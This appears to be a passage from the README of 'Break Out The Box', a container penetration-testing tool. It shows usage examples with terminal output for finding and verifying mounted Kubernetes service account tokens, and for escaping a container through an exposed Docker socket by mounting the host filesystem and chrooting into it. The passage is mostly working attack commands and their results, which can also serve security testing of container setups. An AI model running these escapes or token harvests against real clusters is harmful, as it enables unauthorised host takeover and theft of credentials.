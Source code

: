 
### Identify and Verify mounted Kubernetes Service Account Secrets
```
#./botb-linux-amd64 -k8secrets=true
[+] Break Out The Box
[*] Identifying and Verifying K8's Secrets
[!] Token found at: /var/run/secrets/kubernetes.io/serviceaccount/token
[!] Token found at: /run/secrets/kubernetes.io/serviceaccount/token
[*] Trying:  https://kubernetes.default/api/v1
[!] Valid response with token (xxxxxxxxxx...)on -> https://kubernetes.default/api/v1
[*] Trying:  https://kubernetes.default/api/v1/namespaces
[*] Trying:  https://kubernetes.default/api/v1/namespaces/default/secrets
[*] Trying:  https://kubernetes.default/api/v1/namespaces/default/pods
[*] Trying:  https://kubernetes.default/api/v1
[!] Valid response with token (xxxxxxxxxx...)on -> https://kubernetes.default/api/v1
[*] Trying:  https://kubernetes.default/api/v1/namespaces
[*] Trying:  https://kubernetes.default/api/v1/namespaces/default/secrets
[*] Trying:  https://kubernetes.default/api/v1/namespaces/default/pods
[+] Finished
```

### Break out from Container via Exposed Docker Daemon
This approach will breakout into an interactive TTY on the host.
```
#./bob_linux_amd64 -autopwn=true    
[+] Break Out The Box
[+] Attempting to autopwn
[+] Hunting Docker Socks
[+] Attempting to autopwn:  /var/meh
[+] Attempting to escape to host...
[+] Attempting in TTY Mode
./docker/docker -H unix:///var/meh run -t -i -v /:/host alpine:latest /bin/sh
chroot /host && clear
echo 'You are now on the underlying host'
You are now on the underlying host
/ # 
```

### Break out of a Container but in a CI/CD Friendly way
This approach does not escape into a TTY on the host but instead returns an Exit Code > 0 to indicate a successful container breakout.

```
#./bob_linux_amd64 -autopwn=true -cicd=true
[+] Break Out The Box
[+] Attempting to autopwn
[+] Hunting Docker Socks
[+] Attempting to autopwn:  /var/meh
[+] Attempting to escape to host...
[!] Successfully escaped container
[+] Finished

#echo $?
1
```
